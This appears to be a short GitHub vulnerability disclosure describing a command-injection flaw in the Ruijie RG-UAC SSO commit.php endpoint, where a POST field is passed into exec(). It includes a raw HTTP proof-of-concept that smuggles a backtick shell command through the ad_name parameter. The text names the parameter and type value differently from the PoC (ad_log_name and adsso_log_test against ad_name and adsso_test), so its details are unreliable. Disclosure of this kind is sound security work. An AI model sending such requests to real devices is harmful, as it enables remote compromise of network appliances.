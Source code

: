 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn

version:full version

url:/view/userAuthentication/SSO/commit.php

Key codes marked
satisfaction variable
($_REQUEST['type']=='adsso_log_test')
At the same time,$_POST ['ad_log_name'] can be controlled and directly substituted into exec, resulting in rce vulnerability
<img width="592" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/5bc636bc-3031-494c-a01f-e3946239783c">
poc：
```
POST /view/userAuthentication/SSO/commit.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/javascript, text/html, application/xml, text/xml, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.7.1
Connection: close
Cookie: PHPSESSID=c545dcdb0474795f9e421b4ac6d46bc9
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

ad_name=`sleep${IFS}10`&type=adsso_test
```
<img width="602" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/9054613e-f17b-4d12-af8f-c70f97290464">
